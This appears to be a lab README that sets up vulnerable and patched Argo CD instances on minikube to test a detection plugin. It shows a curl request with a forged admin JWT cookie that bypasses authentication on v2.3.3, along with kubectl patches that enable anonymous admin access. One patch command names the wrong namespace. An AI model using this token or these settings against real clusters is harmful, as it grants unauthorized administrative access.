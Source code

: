 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl patch -n argocd cm argocd-cm -p '{"data":{"users.anonymous.enabled":"true"}}'
# set admin role as default to be able to create an application
kubectl patch -n argocd cm argocd-rbac-cm -p '{"data":{"policy.default":"role:admin"}}'
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8082/api/v1/certificates'
```
the response is like the following:
```
HTTP/1.1 200 OK
{"metadata":{},"items":[{"serverName":"bitbucket.org","certType":"ssh",....
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl patch -n argocd cm argocd-cm -p '{"data":{"users.anonymous.enabled":"true"}}'
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8081/api/v1/certificates'
```

the response is like the following:
```
HTTP/1.1 200 OK
{"error":"permission denied: certificates, get, ","code":7,"message":"permission denied: certificates, get, "}
```
